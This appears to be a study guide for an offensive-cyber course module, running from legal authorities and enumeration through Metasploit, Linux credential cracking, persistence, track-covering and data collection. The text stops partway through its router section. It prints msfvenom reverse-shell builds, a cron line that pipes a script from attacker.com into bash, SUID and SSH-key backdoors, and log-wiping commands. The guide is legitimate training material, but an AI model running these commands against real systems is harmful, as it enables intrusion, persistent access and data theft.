




# JCAC Student Guide — Module 14: Active Exploitation

> **Realigned to JCAC Module 14 (Active Exploitation, v2020-06) TOC.** Covers all 28 Module 14 topics from the physical Student Guide (photos IMG_3687–IMG_3691).

**Module 14 scope:** Full offensive lifecycle — legal authorities → methodology → recon / enumeration → exploitation → post-exploitation (credentials, persistence, privilege escalation) → expanding access → web and client-side vectors.

**Bib study scope (CWT E-7):** Information gathering / target development; Nmap. JCAC graduation tests the full module footprint, so this guide covers all 28 topics.

**Section ordering:** This guide groups **all Linux-side sections (§6–§15)** before **all Windows-side sections (§16–§22)**, rather than TOC-interleaved order. The content coverage is complete; the flow is adjusted for pedagogy (you learn one OS's full attack chain, then the other). Bib questions are topic-scoped, not section-number-scoped, so this reorganization has no exam downside.

### TOC-to-file section map

| Module 14 TOC §N | Topic | File §N |
|---|---|---|
| 1 | Keeping it Legal | §1 |
| 2 | Active Exploitation methodology | §2 |
| 3 | Enumeration and Analysis | §3 |
| 4 | Exploitation and Gaining Access | §4 |
| 5 | Metasploit Framework | §5 |
| 6 | UNIX/Linux Exploitation and Enumeration | §6 |
| 7 | UNIX/Linux Credential Harvesting | §7 |
| 8 | Covering Tracks in UNIX/Linux | §8 |
| 9 | Sustaining Access in UNIX/Linux | §9 |
| 10 | UNIX/Linux Collection | §10 |
| 11 | UNIX/Linux Reconnaissance | §11 |
| 12 | Router Reconnaissance | §12 |
| 13 | SSH Single Tunnels | §13 |
| 14 | Router Exploitation and Enumeration | §12 + §14 (router context in §12; priv-esc technique in §14) |
| 15 | SSH Multi-Tunnels | §13 (extended via chained `-L` / `-D` flags) |
| 16 | Linux Exploitation (SUDO / SUID) | §14 |
| 17 | Standalone Payloads | §15 |
| 18 | Meterpreter Commands | §16 |
| 19 | Windows Exploitation (2K8) and Enumeration | §17 |
| 20 | Covering Tracks in Windows | §19 |
| 21 | Windows Password Hashes | §18 |
| 22 | Windows Collection | §21 |
| 23 | Host-Based Security Product Evasion | §23 |
| 24 | Sustaining Access in Windows | §20 + §24 |
| 25 | Expanding Access | §22 + §25 |
| 26 | Network Devices / ARP Poisoning | §26 |
| 27 | Web Exploitation | §27 |
| 28 | Client-Side Attacks | §28 |

---

## 1. Keeping it Legal {#legal}

**Active exploitation is not self-authorizing.** Every keystroke requires a documented authority and defined scope.

### U.S. Code titles

| Title | What it covers | Implications |
|---|---|---|
| **Title 10 U.S.C.** | DoD military operations; includes offensive (OCO) and defensive (DCO) cyberspace operations | Requires mission orders, CCMD tasking |
| **Title 18 U.S.C.** | Criminal code — §1030 Computer Fraud and Abuse Act | What a civilian doing these actions would be charged under |
| **Title 32 U.S.C.** | National Guard in state-active-duty status | Limited federal use; Posse Comitatus concerns |
| **Title 50 U.S.C.** | Intelligence activities — covert action requires a presidential finding + Gang of Eight notification | NSA / CIA / DNI |
| **Title 6 U.S.C.** | Homeland Security / CISA | DHS authorities |

### DoD policy stack

- **DoDD 3000.05** — Stability operations
- **DoDD 5240.01** — DoD intelligence activities (governs collection, retention, dissemination of USPER info)
- **DoDD S-5100.30** — Department of Defense Command and Control (C2)
- **USCYBERCOM Standing Rules of Engagement (SROE)** — default ROE when no mission-specific ROE exists
- **USCYBERCOM Standing Rules for the Use of Force (SRUF)**
- **EXORD / OPORD** — specific mission authorization
- **USCC TASKORD / GENADMIN** — operational tasking
- **RFS (Request for Support)** — CCMD formal mechanism to request cyber effects

### Posse Comitatus Act (18 U.S.C. §1385)

Prohibits active-duty U.S. military from executing domestic law enforcement. Cyber implications:
- Federal DoD cyber forces cannot target domestic networks for law-enforcement purposes.
- FBI / DHS lead on domestic incidents; DoD supports under DSCA (Defense Support of Civil Authorities).
- National Guard in state-active-duty status is NOT subject to Posse Comitatus.

### USPER / USSID 18

- **USPER** = United States Person — U.S. citizen, LPR, unincorporated association substantially composed of U.S. persons, U.S. corporation.
- **USSID 18** — NSA's procedures for handling USPER information. Minimization, masking, retention limits.
- When target development inadvertently collects on a USPER, the information is masked, reported, and either destroyed or processed under strict rules.

### Authorization checklist before any active action

1. **Is there a documented authority?** (EXORD, OPORD, TASKORD, written ROE)
2. **Is the target within the named scope?**
3. **Has deconfliction been performed?** (NSA, CIA, FBI, DHS, coalition equities)
4. **Is collateral risk acceptable?** (Medical, SCADA, civilian critical infrastructure)
5. **Is oversight notified?** (Legal, IG, congressional as required for Title 50)

### Case studies from JCAC

- **Stuxnet / Olympic Games** — Title 50 covert action against Iranian Natanz centrifuges.
- **APT1 / Mandiant report** — defensive attribution case study.
- **Operation Glowing Symphony** — USCYBERCOM counter-ISIS operation, showcased cross-CCMD coordination.

---

## 2. USCYBERCOM Methodology {#methodology}

USCYBERCOM component commands (ARCYBER, MARFORCYBER, AFCYBER, FLTCYBER / Tenth Fleet) follow a structured operational methodology.

### Kill chain overlays

**Lockheed Martin Cyber Kill Chain** (seven phases):

1. Reconnaissance
2. Weaponization
3. Delivery
4. Exploitation
5. Installation
6. Command and Control (C2)
7. Actions on Objectives

**MITRE ATT&CK** — 14 enterprise tactics (the "why"), ~200 techniques (the "how"):

| # | Tactic | Goal |
|---|---|---|
| TA0043 | **Reconnaissance** | Gather info about the target |
| TA0042 | **Resource Development** | Build/buy/compromise infra used in later ops |
| TA0001 | **Initial Access** | Get first foothold |
| TA0002 | **Execution** | Run code on a target |
| TA0003 | **Persistence** | Survive reboots / re-authentication |
| TA0004 | **Privilege Escalation** | Get higher-privilege context |
| TA0005 | **Defense Evasion** | Avoid detection |
| TA0006 | **Credential Access** | Steal account names / secrets |
| TA0007 | **Discovery** | Learn about the environment |
| TA0008 | **Lateral Movement** | Move through the network |
| TA0009 | **Collection** | Gather target data |
| TA0011 | **Command and Control** | Talk to the operator |
| TA0010 | **Exfiltration** | Get data out |
| TA0040 | **Impact** | Disrupt, destroy, deny — the mission payoff |

**ATT&CK notation:** `T<tactic>[.sub]` — e.g., **T1059.001** = Execution via PowerShell.

**Unified Kill Chain (Paul Pols)** — 18 phases combining Lockheed + ATT&CK, bridging external and internal attacker phases.

### The USCYBERCOM target development cycle

1. **Target nomination** — identify and justify target
2. **Target validation** — legal review, deconfliction
3. **Target development** — characterize (infrastructure, TTPs, defenses)
4. **Access planning** — identify best initial vector
5. **Capability development** — build/buy/customize tools
6. **Rehearsal** — validate in lab
7. **Execution** — on mission
8. **Assessment** — battle damage assessment, re-attack if necessary
9. **Reporting** — OPREP, SITREP, INTSUM

### Deconfliction

Before offensive action:
- Check NSA / CIA / FBI / DHS / coalition for overlapping equities.
- Cross-AOR targets require cross-CCMD coordination.
- "Do no harm" — avoid collateral to allied networks, civilian critical infrastructure, deconflicted observation targets.
- **USCYBERCOM Instruction 3000.14A** — deconfliction process.

---

## 3. Enumeration {#enumeration}


*Harper et al., Gray Hat Hacking 6e — figure from early-chapter content covering recon / enumeration / methodology overview.*

Enumeration is the bridge between reconnaissance (passive) and exploitation (active).

### Passive vs. active reconnaissance

- **Passive** — no direct interaction. OSINT, public DNS, WHOIS, crt.sh, Shodan, Censys, Google dorking, GitHub code search, Wayback Machine, breach data.
- **Active** — direct packets to target. Nmap, masscan, dirbuster, Nikto, DNS zone walks. Risks detection; requires authorization.

### DNS enumeration

```bash
dig NS target.com                       # nameservers
dig TXT target.com                      # SPF, DMARC, verification records
dig MX target.com                       # mail servers
dig -x 203.0.113.5                      # reverse
dig AXFR target.com @ns1.target.com     # attempt zone transfer
dnsenum target.com
fierce -dns target.com
dnsrecon -d target.com -t std
```

**crt.sh** — Certificate Transparency logs reveal subdomains via SAN fields.

### Nmap — the workhorse

Know these flags cold.

**Scan types:**

| Flag | Type | Notes |
|---|---|---|
| `-sS` | TCP SYN (half-open) | Default root scan; SYN then RST — stealthier |
| `-sT` | TCP Connect | Uses OS connect syscall — noisier; non-root default |
| `-sU` | UDP scan | Slow; critical for DNS, SNMP, NTP, NetBIOS |
| `-sA` | ACK scan | Reveals firewall rules — distinguishes filtered vs. unfiltered |
| `-sN` / `-sF` / `-sX` | Null / FIN / Xmas | RFC 793 ambiguity — weird flags to evade stateless filters |
| `-sW` | Window scan | ACK variant inspecting RST window |
| `-sM` | Maimon scan | FIN+ACK variant |

**Port specification:**

- `-p 80` — single port
- `-p 1-1024` — range
- `-p 22,80,443,3389` — list
- `-p T:80,U:53` — TCP 80, UDP 53
- `-p-` — all 65,535 TCP ports
- `--top-ports 100` — Nmap's top-100 by observed frequency

**Detection:**

- `-sV` — service / version fingerprint
- `-O` — OS detection
- `-A` — aggressive: `-sV -O --script=default --traceroute`
- `--script <name>` — NSE (Nmap Scripting Engine). Categories: `auth`, `broadcast`, `brute`, `default`, `discovery`, `dos`, `exploit`, `external`, `fuzzer`, `intrusive`, `malware`, `safe`, `version`, `vuln`
- `--script-args` — pass arguments to scripts

**Timing and stealth:**

- `-T0` paranoid → `-T5` insane (default `-T3`)
- `-f` fragment packets (8-byte chunks)
- `-D RND:10` — decoy scan with 10 random decoys
- `--source-port 53` — masquerade source port
- `--data-length N` — append random padding
- `-Pn` — skip host discovery; treat target as up

**Output:**

- `-oN out.nmap` — normal
- `-oX out.xml` — XML (machine-parseable)
- `-oG out.gnmap` — grepable
- `-oA base` — all three

**Port states:**

| State | Meaning |
|---|---|
| **open** | Service accepting connections |
| **closed** | RST received, no service bound |
| **filtered** | No reply — firewall dropping |
| **unfiltered** | (ACK) reachable but state unknown |
| **open\|filtered** | (UDP/Null/FIN/Xmas) indeterminate |

**Recipe cheat sheet:**

```bash
# Fast host discovery (no port scan)
nmap -sn 192.0.2.0/24

# Full TCP port scan
nmap -p- -sS 203.0.113.5

# Service / version + default scripts
nmap -sV -sC 203.0.113.5

# UDP top 50
nmap -sU --top-ports 50 203.0.113.5

# Vuln scripts
nmap -sV --script vuln 203.0.113.5

# Aggressive (loud)
nmap -A -T4 -p- 203.0.113.5
```

### SMB / NetBIOS enumeration

```bash
enum4linux-ng -A 10.0.0.5
smbclient -L //10.0.0.5 -N               # anonymous share list
smbmap -H 10.0.0.5 -u '' -p ''            # share permissions
rpcclient -U "" 10.0.0.5                  # null session RPC
nmap --script smb-enum-shares,smb-enum-users 10.0.0.5
```

### SNMP enumeration

```bash
snmpwalk -v2c -c public 10.0.0.5
onesixtyone -c communities.txt 10.0.0.5
nmap -sU -p 161 --script snmp-* 10.0.0.5
```

Default communities: `public`, `private`, `cisco`, `community`.

### LDAP enumeration

```bash
ldapsearch -x -H ldap://10.0.0.5 -b "DC=target,DC=local"
nmap --script ldap-* 10.0.0.5
```

### Web enumeration

```bash
gobuster dir -u https://target.com -w /usr/share/wordlists/dirb/common.txt
ffuf -w wordlist.txt -u https://target.com/FUZZ
nikto -h https://target.com
whatweb https://target.com
wpscan --url https://target.com --enumerate u
```

### Banner grab and CPE lookup

- Grab service banners → derive CPE (Common Platform Enumeration).
- Cross-reference CPE in NVD to find associated CVEs.
- Automated via Nmap `-sV`, Nuclei templates, Nessus, OpenVAS.

---


*Gray Hat Hacking 6e — figure from the exploitation chapters illustrating stack layout, buffer overflow, or shellcode placement.*

## 4. Exploitation {#exploitation}

### Exploitation primitives

What actually gives code execution:

| Class | CWE | Primitive |
|---|---|---|
| **Stack buffer overflow** | CWE-121 | Overwrite saved return address / SEH / canary |
| **Heap overflow** | CWE-122 | Corrupt heap metadata → arbitrary write |
| **Use-after-free** | CWE-416 | Free object, realloc with attacker data, call method |
| **Type confusion** | CWE-843 | Object interpreted as wrong type — vtable/field hijack |
| **Integer overflow → BOF** | CWE-190 | Small computed size, large copy |
| **Format string** | CWE-134 | User input as format specifier — arbitrary read/write via `%n`, `%s` |
| **Race / TOCTOU** | CWE-367 | Check-then-use window |
| **Command injection** | CWE-78 | Unsanitized input to shell-invoking API |
| **SQL injection** | CWE-89 | Appended SQL to query string |
| **SSRF** | CWE-918 | Server fetches attacker URL — pivot internal |
| **XXE** | CWE-611 | XML external entity — read files, SSRF |
| **Deserialization** | CWE-502 | Unsafe object unmarshal → gadget chain |
| **Auth bypass** | CWE-287 | Flaw lets you skip authentication |
| **Directory traversal** | CWE-22 | `../../etc/passwd` |
| **Open redirect → OAuth token theft** | CWE-601 | User-controlled redirect |

### Mitigation chain-breaking order

1. **Find info leak** → bypass ASLR.
2. **Build ROP / JOP / COP chain** → bypass DEP / NX.
3. **Win stack canary race or side-channel leak** → reach corrupted state.
4. **Bypass CFG / CFI** → reach controlled indirect call.
5. **Escape sandbox** → reach full system.

### Initial access vectors (ATT&CK TA0001)

| Vector | ATT&CK | Notes |
|---|---|---|
| **Spearphishing link / attachment** | T1566 | Dominant IR vector |
| **Valid accounts** | T1078 | No malware — just login with stolen creds |
| **Exploit public-facing app** | T1190 | Unpatched VPN, Exchange, Citrix, Confluence |
| **Supply-chain compromise** | T1195 | SolarWinds, 3CX, MOVEit, xz-utils |
| **Trusted relationship** | T1199 | MSP → downstream customers |
| **External remote services** | T1133 | Exposed RDP, Citrix, VPN, no MFA |
| **Drive-by compromise** | T1189 | Watering-hole, malvertising |
| **Hardware additions** | T1200 | Rogue USB, malicious cable, implant |
| **Replication through removable media** | T1091 | USB worms (Stuxnet) |

### Classic misconfigurations

- Default credentials (`admin:admin`, `root:toor`, IPMI / printer / camera defaults)
- Anonymous SMB / FTP
- SMB signing disabled → NTLM relay
- LLMNR / NBT-NS enabled → Responder hash capture
- IPv6 enabled but unmanaged → mitm6 DHCPv6 rogue, WPAD
- Unpatched SMBv1 → MS17-010 (EternalBlue)
- Kerberos PreAuth disabled → AS-REP roasting
- Service accounts with SPNs + weak passwords → Kerberoasting
- Over-privileged service accounts running scheduled tasks
- Unconstrained Kerberos delegation
- ADCS misconfigs (ESC1–ESC11)
- Exposed management interfaces (iDRAC, IPMI, vCenter, Jenkins, Kubernetes API)

---


*Gray Hat Hacking 6e — figure illustrating exploitation framework workflow, payload structure, or Metasploit module flow.*

## 5. Metasploit {#metasploit}

The canonical open-source exploitation platform.

### Module taxonomy

| Type | Purpose |
|---|---|
| **exploit** | Delivers payload to trigger vulnerability |
| **payload** | Code that runs on target post-exploit |
| **auxiliary** | Scanners, fuzzers, DoS, non-exploit actions |
| **post** | Post-exploitation modules (run on session) |
| **encoder** | Encodes payloads to evade signatures |
| **nop** | NOP sled generators (platform-specific) |
| **evasion** | Builds AV-evasive executables |

### Payload flavors

- **staged** — small stager pulls full stage over C2 channel. Format: `windows/meterpreter/reverse_tcp`.
- **stageless** — full payload in one shot. Format: `windows/meterpreter_reverse_tcp` (no slash before `reverse_tcp`).
- **singles** — non-Meterpreter one-shots: `windows/shell_reverse_tcp`, `cmd/unix/bind_netcat`.
- **inline** — same as stageless for some docs.

### Bind vs. reverse

- **reverse** — target connects to attacker. Works behind NAT.
- **bind** — target opens a listener; attacker connects. Requires target reachable.

### Core workflow

```
msfconsole
search <cve or product>
use exploit/<path>
show options
set RHOSTS <target>
set LHOST <my ip>
set LPORT 4444
set payload <payload>
show advanced
check                  # test without exploiting
run                    # execute
```

### msfvenom — standalone payload builder

```bash
# Windows reverse TCP EXE
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f exe -o shell.exe

# Linux ELF
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f elf -o shell.elf

# PHP webshell (one-liner)
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f raw -o shell.php

# Encoded Windows payload (AV evasion attempt)
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -e x86/shikata_ga_nai -i 9 -f exe -o encoded.exe

# Shellcode for use in an exploit
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f c
```

### Handlers

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.0.0.5
set LPORT 4444
set ExitOnSession false
exploit -j       # background handler
```

### Sessions and routes

```
sessions -l                 # list sessions
sessions -i 1               # interact with session 1
sessions -u 1               # upgrade shell to Meterpreter
route add 10.0.1.0/24 1     # pivot through session 1
```

### Autorun and resource scripts

- `set AutoRunScript post/windows/manage/migrate` — auto-migrate to a new PID after exploitation.
- `resource script.rc` — execute a sequence of msfconsole commands from file.

---

## 6. UNIX/Linux Enumeration {#linux-enum}

First phase of the UNIX/Linux attack chain.

### Local host enumeration

```bash
# System
uname -a
cat /etc/os-release
hostname
whoami; id
groups
w; who

# Users and groups
cat /etc/passwd
cat /etc/group
cat /etc/shadow          # if readable (misconfig)

# Network
ip a; ip r
ss -tulpn
netstat -tulpn
cat /etc/resolv.conf
arp -a

# Processes and services
ps auxf
systemctl list-units --type=service
systemctl list-unit-files

# Scheduled tasks
cat /etc/crontab
ls -la /etc/cron.*
crontab -l
systemctl list-timers

# Mounts and disks
mount
df -h
lsblk
cat /etc/fstab
```

### SUID / SGID hunt

```bash
find / -perm -4000 -type f 2>/dev/null        # SUID
find / -perm -2000 -type f 2>/dev/null        # SGID
find / -perm -u+s -type f 2>/dev/null
```

Cross-reference against **GTFOBins** — binaries with known privilege-escalation techniques.

### Sudo enumeration

```bash
sudo -l                   # what can I run?
cat /etc/sudoers          # if readable
ls -la /etc/sudoers.d/
```

### Capabilities

```bash
getcap -r / 2>/dev/null
```

Dangerous caps: `cap_setuid`, `cap_sys_admin`, `cap_dac_read_search`.

### Environment and history

```bash
env
cat ~/.bash_history
cat ~/.*history
cat /root/.bash_history 2>/dev/null
ls -la ~/.ssh
cat ~/.ssh/authorized_keys
```

### Automated tools

- **LinPEAS** — comprehensive Linux enumeration script
- **LinEnum** — classic enumeration
- **linux-exploit-suggester** — maps kernel version to known exploits
- **pspy** — watches processes without root (useful for timing cron jobs)

---

## 7. UNIX/Linux Credentials {#linux-creds}

### Password and shadow files

`/etc/passwd` — world-readable; user list.

Format: `username:x:UID:GID:GECOS:home:shell`

`/etc/shadow` — root-only; hashed passwords.

Format: `username:$id$salt$hash:lastchange:min:max:warn:inactive:expire`

### Hash identifiers in /etc/shadow

| ID | Algorithm |
|---|---|
| `$1$` | MD5 (obsolete) |
| `$2a$` / `$2b$` / `$2y$` | bcrypt |
| `$5$` | SHA-256 |
| `$6$` | SHA-512 (default on most modern distros) |
| `$y$` | yescrypt (newer Debian/Ubuntu) |
| `$7$` | scrypt (rare) |

### Cracking with hashcat and John

```bash
# Combine passwd + shadow for John
unshadow /etc/passwd /etc/shadow > combo.txt
john --wordlist=rockyou.txt combo.txt
john --show combo.txt

# hashcat SHA-512 crypt (mode 1800)
hashcat -m 1800 shadow.txt rockyou.txt

# bcrypt (mode 3200)
hashcat -m 3200 bcrypt_hashes.txt rockyou.txt

# MD5 crypt (mode 500)
hashcat -m 500 md5_hashes.txt rockyou.txt
```

### Hashcat attack modes

| Mode | Meaning |
|---|---|
| `-a 0` | Wordlist (dictionary) |
| `-a 1` | Combination (two wordlists concatenated) |
| `-a 3` | Mask (brute-force with character sets) |
| `-a 6` | Hybrid wordlist + mask |
| `-a 7` | Hybrid mask + wordlist |
| `-a 9` | Association (user-specific) |

Mask tokens: `?l` lowercase, `?u` uppercase, `?d` digit, `?s` symbol, `?a` all.

### SSH keys

```bash
cat ~/.ssh/id_rsa                    # private key (if accessible)
cat ~/.ssh/authorized_keys           # who can log in as this user
cat ~/.ssh/known_hosts               # what we've connected to (cleartext hostnames in old OpenSSH; hashed in new)

# Crack SSH private key passphrase
ssh2john id_rsa > key.john
hashcat -m 22931 key.john rockyou.txt
```

### Application creds stash

- Config files: `/etc/*.conf`, web app `.env`, `wp-config.php`, `config.inc.php`
- Cloud credential files: `~/.aws/credentials`, `~/.docker/config.json`, `~/.kube/config`
- History files: `.bash_history`, `.mysql_history`, `.psql_history`
- World-readable backups: `/backup/`, `/opt/`, `/tmp/*.sql`

---

## 8. UNIX/Linux Cover Your Tracks {#linux-cover}

### Shell history suppression

```bash
# Current session only
unset HISTFILE
export HISTFILE=/dev/null
export HISTSIZE=0

# Prefix command with space (if HISTCONTROL includes ignorespace)
 some_command

# Kill history at exit
kill -9 $$
```

### Log files to check / scrub

```bash
# auth events
/var/log/auth.log            # Debian/Ubuntu
/var/log/secure              # RHEL/CentOS/Fedora

# system events
/var/log/syslog
/var/log/messages

# login records
/var/log/wtmp                # good logins (binary — use `last`)
/var/log/btmp                # bad logins (binary — use `lastb`)
/var/log/lastlog             # last login per user (binary — use `lastlog`)

# web server
/var/log/apache2/
/var/log/nginx/

# journald
journalctl --vacuum-time=1s
```

### File timestamps

```bash
# Mirror timestamps from another file
touch -r /bin/ls /tmp/mypayload

# Explicit time
touch -d "2024-01-15 03:22:10" file
touch -a file                # atime only
touch -m file                # mtime only
```

**Note:** ext4's `crtime` (birth time) is in the inode but not displayed by `ls`. `stat` shows it on newer kernels. Forensics sees through basic `touch` anti-forensics.

### Artifact considerations

- `/tmp/` and `/var/tmp/` — often scrubbed on reboot, but not always.
- `/dev/shm/` — tmpfs in RAM; common stager location.
- `~/.cache/`, `~/.local/share/` — persistent user artifacts.

---

## 9. UNIX/Linux Sustain Access {#linux-sustain}

Persistence (ATT&CK TA0003) on Linux.

### Cron jobs

```bash
# User crontab
crontab -e
echo "* * * * * curl attacker.com/s.sh | bash" | crontab -

# System-wide
echo "* * * * * root /tmp/stager" >> /etc/crontab

# Hourly / daily drops
cp payload.sh /etc/cron.hourly/01-sync
chmod +x /etc/cron.hourly/01-sync
```

### Systemd units

`/etc/systemd/system/evil.service`:

```ini
[Unit]
Description=System Helper Service

[Service]
ExecStart=/usr/local/bin/payload
Restart=always
User=root

[Install]
WantedBy=multi-user.target
```

```bash
systemctl daemon-reload
systemctl enable --now evil.service
```

### Init scripts

- `/etc/init.d/` (SysV) + `update-rc.d` / `chkconfig`
- `/etc/rc.local` (if still supported)

### Shell profile drops

```bash
~/.bashrc
~/.bash_profile
/etc/bash.bashrc
/etc/profile
/etc/profile.d/*.sh       # system-wide
```

### SSH authorized_keys

```bash
mkdir -p ~/.ssh
echo "ssh-ed25519 AAAA...attacker" >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```

### SUID backdoor

```bash
# Copy shell, make it SUID-root (requires root access to plant)
cp /bin/bash /usr/bin/.bk
chown root:root /usr/bin/.bk
chmod 4755 /usr/bin/.bk
# Later: /usr/bin/.bk -p     (triggers SUID, drops to root)
```

### PAM backdoor

Patch `/lib/x86_64-linux-gnu/security/pam_unix.so` or drop a custom PAM module that honors a magic password.

### Kernel-level persistence

- **LKM rootkit** — loadable kernel module hooking syscalls (e.g., Diamorphine, Reptile).
- **eBPF rootkit** — newer approach using BPF programs attached to tracepoints.
- Requires root to load; survives until next kernel boot (unless `/etc/modules` is edited).

---

## 10. UNIX/Linux Collect {#linux-collect}

What the operator harvests.

### Target files

- SSH keys: `~/.ssh/id_*`
- Cloud creds: `~/.aws/credentials`, `~/.azure/`, `~/.gcp/`
- Kubernetes: `~/.kube/config`
- Databases: `/var/lib/mysql/`, `/var/lib/postgresql/`, SQLite files
- Config files with secrets: `/etc/*.conf`, app `.env`
- Mail spool: `/var/spool/mail/`
- Web roots: `/var/www/`, `/srv/`
- Home dirs: `/home/*/Documents/`, `/home/*/Desktop/`

### Archival and staging

```bash
tar czf /tmp/.collection.tgz /home/*/Documents/ 2>/dev/null
split -b 50M /tmp/.collection.tgz /tmp/.part.
```

### Exfiltration channels

- HTTPS POST to operator C2
- DNS tunneling (iodine, dnscat2) — payload in TXT/CNAME queries
- ICMP tunnel (ptunnel)
- Cloud service dead-drop (paste services, gist, public S3)
- SSH reverse tunnel to operator

### Encrypt before exfil

```bash
openssl enc -aes-256-cbc -pbkdf2 -in loot.tgz -out loot.enc -k 'operator-key'
# or use gpg
gpg --symmetric --cipher-algo AES256 loot.tgz
```

---

## 11. UNIX/Linux Recon (Expanding Access) {#linux-recon-internal}

Once inside, map the neighborhood.

### Internal network discovery

```bash
# ARP cache
ip neigh
arp -a

# Interfaces and routes
ip a; ip r

# Ping sweep (simple)
for i in {1..254}; do ping -c1 -W1 10.0.0.$i &>/dev/null && echo 10.0.0.$i up; done

# Nmap from the foothold (may need a pre-built binary dropped in)
./nmap -sn 10.0.0.0/24

# fping
fping -ag 10.0.0.0/24 2>/dev/null

# Proxychains via SSH dynamic forward
ssh -D 1080 user@pivot
echo 'socks5 127.0.0.1 1080' >> /etc/proxychains.conf
proxychains nmap -sT 10.0.0.0/24
```

### NFS and shared filesystems

```bash
showmount -e 10.0.0.5
mount -t nfs 10.0.0.5:/export /mnt/target
```

### Neighboring credentials

- `/etc/hosts` — what hosts does this box know by name?
- `~/.ssh/known_hosts` — what's been SSH'd to?
- Config files pointing to DBs, APIs, message queues.

---

## 12. Router Attacks {#routers}

Network infrastructure devices as the target.

### Cisco IOS password types

| Type | Algorithm | Reversible? |
|---|---|---|
| **0** | Cleartext | Yes (it's plain) |
| **7** | XOR with Cisco static key | Yes (trivially) |
| **5** | MD5 (crypt-style with salt) | No — crack |
| **8** | PBKDF2-SHA256 | No — crack |
| **9** | scrypt | No — crack (slow) |

